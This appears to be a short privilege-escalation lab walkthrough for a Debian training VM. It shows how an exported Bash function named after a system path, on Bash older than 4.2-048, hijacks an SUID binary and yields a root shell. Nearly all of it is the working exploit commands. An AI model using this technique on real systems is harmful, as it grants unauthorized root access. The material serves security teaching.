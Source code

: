 # SUID / SGID Executables - Abusing Shell Features (#1)

Verify this with strings:

`strings /usr/local/bin/suid-env2`

In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable at that file path.

Verify the version of Bash installed on the Debian VM is less than 4.2-048:

`/bin/bash --version`

Create a Bash function with the name "/usr/sbin/service" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

`function /usr/sbin/service { /bin/bash -p; }`\
`export -f /usr/sbin/service`

Run the suid-env2 executable to gain a root shell:

`/usr/local/bin/suid-env2`
